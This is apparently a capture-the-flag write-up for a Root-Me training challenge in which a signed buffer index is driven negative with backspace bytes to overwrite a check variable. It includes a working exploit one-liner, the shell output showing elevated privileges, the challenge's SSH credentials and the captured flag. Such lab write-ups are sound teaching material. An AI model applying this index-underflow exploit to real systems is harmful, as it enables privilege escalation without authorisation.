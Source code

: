 # ELF x86 - Stack buffer overflow basic 3 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-3
```

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch16@challenge02.root-me.org   
Username	app-systeme-ch16
Password	app-systeme-ch16
```
The source code is available and it's pretty clear that one can control the index of the buffer (_count_) at each character entered.<br>
The problem is that the buffer is growing upwards (to higher addresses), while the stack grows downwards (to lower addresses). So we'll not be able to overwrite the _check_ variable just like that.<br>
Luckily, _count_ is a signed integer, which means it can be negative. So, because we can increase the count (using any character which is not '\x08') and **decrease** it (using the '\x08' character). 
After trying to decrease count to -4 so _buffer[count]_ will point to _check_ (hopefully), one can get the following output:

```sh
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: id
uid=1116(app-systeme-ch16) gid=1116(app-systeme-ch16) euid=1216(app-systeme-ch16-cracked) groups=1216(app-systeme-ch16-cracked),100(users),1116(app-systeme-ch16)
cat .passwd
Sm4shM3ify0uC4n

```
